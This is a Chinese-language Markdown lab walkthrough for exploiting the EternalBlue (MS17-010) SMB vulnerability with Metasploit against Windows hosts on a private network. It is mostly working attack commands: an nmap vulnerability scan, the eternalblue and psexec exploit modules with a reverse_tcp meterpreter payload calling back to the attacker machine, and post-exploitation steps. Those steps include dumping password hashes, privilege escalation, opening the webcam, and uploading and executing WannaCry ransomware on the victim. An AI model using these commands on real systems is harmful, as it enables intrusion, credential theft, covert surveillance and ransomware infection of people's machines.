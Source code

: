 # 永恒之蓝-漏洞利用
## 环境
宿主机:	192.168.43.152 \
kali:	192.168.43.1 \
win32:	192.168.43.3（防火墙允许文件与打印机共享) \
win64:	192.168.19.2（防火墙允许文件与打印机共享） \

## 主机发现
nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open \ 
也可以用 \
nmap -n -p445 192.168.43.2 \
>nmap ms17-010     /*定向扫描,发现端口开放并存在ms17-010 漏洞*/

## 使用msf框架攻击win64
msfconsole \
>进入msf> \
version \
>确保MS \
>架版本在 4.14.17以上,否则请apt-get install,search search ms17_010 \
>漏洞模块路径查询，搜索到了 4 个相关的插件： \
>auxiliary/admin/smb/ms17_010_command \
>auxiliary/scanner/smb/smb_ms17_010 \
>exploit/windows/smb/ms17_010_eternalblue \
>exploit/windows/smb/ms17_010_psexec \
>其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。 \
>注意到,msf的模块目录是在/usr/share/metasploit-framework/modules \
use exploit/windows/smb/ms17_010_eternalblue \
>调用攻击模块 \
options \
>查看参数,并设置： \
set RHOST 192.168.43.2 \
>设定攻击目标  \
show payloads \
>查看详细信息 \
set payload windows/x64/meterpreter/reverse_tcp \
>配置攻击载荷  \
set LHOST 192.168.43.1 \
>设置操作机地址,即kali本机地址 \
exploit \
>发起攻击,也可以用run。出现win -success!就成功了。

## 可以试试以下操作，或者help
getuid，sysinfo \
>查看系统信息 \
webcam_list \
>看看被控制的电脑有没有摄像头,如果有用webcam_stream命令可以打开摄像头监控 \
route \
>查看路由表 \
screenshot \
>桌面截图，很卡 \
shell \
>打开命令行，然后可以ipconfig/whoami/net user \
ps \
>看看开了哪些杀毒软件，内网一致 \
kill \
hashdump \
getsystem \
>提权 \
upload wcry/wcry.ext c:\ \
upload wcry/FILE_ID.DIZ c:\ \
execute -f c:\wcry.exe \
>上传和执行勒索病毒

## 使用msf框架攻击win32
use exploit/windows/smb/ms17_010_psexec \
set RHOST 192.168.43.3 \
set payload windows/meterpreter/reverse_tcp \
show options \
查看设置好的参数 \
set LHOST 192.168.43.1 \
set SMBUser aleecy \
>32位机的账号 \
set SMBPass 0 \
>32位机的密码 \
exploit


## 更多参考：
http://www.sqlsec.com/2018/03/smb.html \
https://blog.csdn.net/zmeixuan/article/details/77587370 \
http://www.freebuf.com/articles/system/132274.html

## 清理重载msf：
/etc/init.d/postgresql restart \
reload_all
